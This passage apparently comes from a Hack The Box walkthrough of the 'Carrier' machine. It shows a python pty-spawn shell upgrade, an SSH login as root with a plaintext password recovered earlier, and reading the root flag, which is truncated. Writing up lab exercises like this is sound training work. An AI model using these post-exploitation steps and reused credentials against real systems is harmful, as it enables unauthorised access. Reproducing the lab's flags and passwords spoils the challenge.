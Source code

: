 ### Logging to the server with root credentials and getting the system flag

Note: We can log in directly from the HTB network to the box IP with the FTP credentials, but in this example we'll log in from `r1`. We have to first enable an interactive pty so we can SSH.

```
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@r1:~# ssh root@10.120.15.10
root@10.120.15.10's password: BGPtelc0rout1ng

Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
[...]

root@carrier:~# ls
ls
root.txt  secretdata.txt
root@carrier:~# cat root.txt

cat root.txt
2832e...
```
